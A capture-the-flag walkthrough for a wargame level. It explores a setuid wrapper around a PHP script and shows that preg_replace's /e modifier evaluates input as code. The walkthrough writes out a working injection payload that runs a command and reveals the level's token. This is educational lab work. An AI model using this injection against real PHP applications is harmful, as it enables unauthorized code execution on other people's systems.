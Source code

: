 ## Exploring the exercice

```bash 
$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

We have an executable and a .php file.

Since we can execute the level06 let's try it.

```bash 
$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We see that he expects an argument. Let's try :
```bash 
$ ./level06 coucou
PHP Warning:  file_get_contents(coucou): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

Okay so it waits for a file.
Let's look at the .php file itself.

```bash 
$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

This script reads a file, processes its content through string manipulations, and outputs the modified result.

The  '/e' option in the preg_replace function, allows content  to be evalauted as code, allowing us to execute comnmands.

Same as the previous exercice we are going to inject 'getflag' in script. Only the syntax will change but the principle stays the same.



```bash 
$ echo '[x {${exec(getflag)}}]' > /tmp/coucou 
$ ./level06 /tmp/coucou

PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1


````



